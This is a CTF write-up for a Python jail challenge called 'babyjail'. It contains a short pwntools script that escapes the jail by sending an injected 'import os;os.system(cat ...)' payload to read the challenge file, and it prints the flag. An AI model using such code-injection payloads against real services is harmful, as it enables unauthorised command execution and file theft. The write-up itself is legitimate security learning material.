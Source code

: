 ## `babyjail`
### Problem Description
- Author: desp
    - wow what a world we live in there are even jails for babies :(
    - surely you can exfiltrate the flag out of these 3 lines of code, right?

### Solution
The flag is stored in the code file, so all we have to do is print the file to terminal.

### Script
```python
import re

io = start(["babyjail.py"])
io.sendlineafter(b">>> ", b"import os;os.system('cat home/user/babyjail.py')")
io.recvlines(2)
print(re.search(r"maple\{[a-zA-Z0-9_!\-\?]+\}", io.recvline().decode())[0])
io.close()
```

### Flag: `maple{50ln_l0n63r_7h4n_5rc?}`
(no, the src is 131 chars the soln is 48 🙂)